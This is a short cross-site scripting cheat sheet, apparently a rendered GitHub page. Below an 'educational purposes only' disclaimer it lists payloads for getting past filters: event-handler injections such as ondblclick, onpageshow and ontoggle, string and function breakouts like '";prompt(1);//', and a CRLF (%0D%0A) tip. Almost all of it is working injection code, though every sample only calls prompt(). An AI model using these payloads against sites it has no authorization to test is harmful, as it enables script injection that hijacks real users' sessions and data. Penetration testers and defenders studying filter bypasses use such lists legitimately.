 Warning
==============

All the information provided on this site is for educational purposes only.

The site or the authors are not responsible for any misuse of the information.

You shall not misuse the information to gain unauthorized access and/or write malicious programs.

These information shall only be used to expand knowledge and not for causing malicious or damaging attacks.

Did you break out of a tag and script, iframe, img, a, &gt; etc are all blocked?
==============

Did they block onerror onload onclick? Try something like this:

&lt;XXXXXXX ondblclick=prompt(1)&gt;Some Text, Don't even care to end the tag either.

" onclick="prompt(1)

<body onpageshow="prompt(123)"> 

<details open ontoggle="prompt('xss via toggle')">Toggle Me For More prompts</details>

Don't forget the injection might not be a form tag but in the javascript.
==============
";prompt(1);//

';prompt(1);//

What if they are in a function? Break out of it. Count the brackets, etc to kill the function.

"};prompt(1);//

Don't forget %0D%0A if you need a new line
